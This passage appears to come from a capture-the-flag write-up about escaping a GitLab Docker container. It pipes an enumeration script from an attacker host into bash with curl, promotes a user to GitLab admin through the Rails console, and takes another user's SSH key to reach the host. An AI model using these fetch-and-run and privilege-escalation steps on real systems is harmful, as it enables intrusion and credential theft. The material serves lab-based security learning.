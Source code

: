 This is a docker container 
```bash
git@git:~/gitlab-rails/working$ ls -la /
ls -la /
total 88
drwxr-xr-x   1 root root 4096 Jul  2  2020 .
drwxr-xr-x   1 root root 4096 Jul  2  2020 ..
-rwxr-xr-x   1 root root    0 Jul  2  2020 .dockerenv
-rw-r--r--   1 root root  157 Feb 24  2020 RELEASE
drwxr-xr-x   2 root root 4096 Feb 24  2020 assets
drwxr-xr-x   1 root root 4096 Feb 24  2020 bin
drwxr-xr-x   2 root root 4096 Apr 12  2016 boot
drwxr-xr-x   5 root root  340 Apr 25 01:56 dev
drwxr-xr-x   1 root root 4096 Jul  2  2020 etc
drwxr-xr-x   2 root root 4096 Apr 12  2016 home
drwxr-xr-x   1 root root 4096 Sep 13  2015 lib
drwxr-xr-x   2 root root 4096 Feb 12  2020 lib64
drwxr-xr-x   2 root root 4096 Feb 12  2020 media
drwxr-xr-x   2 root root 4096 Feb 12  2020 mnt
drwxr-xr-x   1 root root 4096 Feb 24  2020 opt
dr-xr-xr-x 328 root root    0 Apr 25 01:56 proc
drwx------   1 root root 4096 Jul 17  2020 root
drwxr-xr-x   1 root root 4096 Apr 25 01:56 run
drwxr-xr-x   1 root root 4096 Feb 21  2020 sbin
drwxr-xr-x   2 root root 4096 Feb 12  2020 srv
dr-xr-xr-x  13 root root    0 Apr 25 01:56 sys
drwxrwxrwt   1 root root 4096 Apr 25 08:47 tmp
drwxr-xr-x   1 root root 4096 Feb 12  2020 usr
drwxr-xr-x   1 root root 4096 Feb 12  2020 var

```

We use `deepce` [script](https://github.com/stealthcopter/deepce) to enumerate the docker container

```bash
curl http://10.10.14.35:9002/deepce.sh | bash
```
but nothing interesting shown up

## Get root on the container
We should try to manually enumerate the gitlab application.
Since we literally owner of the gitlab process, we can make an admin user, and enumerate the git server from that.

Open the console from inside the container
```bash
gitlab-rails console
```

### Switch our account into admin privilege
From the console
```ruby
u = User.find_by_username('wayne')
u.admin = true
u.save
```

![](Screen-shot/Get%20admin%20on%20gitlab.png)

Examine `dexter` repo, we find his ssh key
![](Screen-shot/Dexter%20ssh%20key.png)

And we got the shell on the machine itself
![](Screen-shot/SSH%20as%20dexter.png)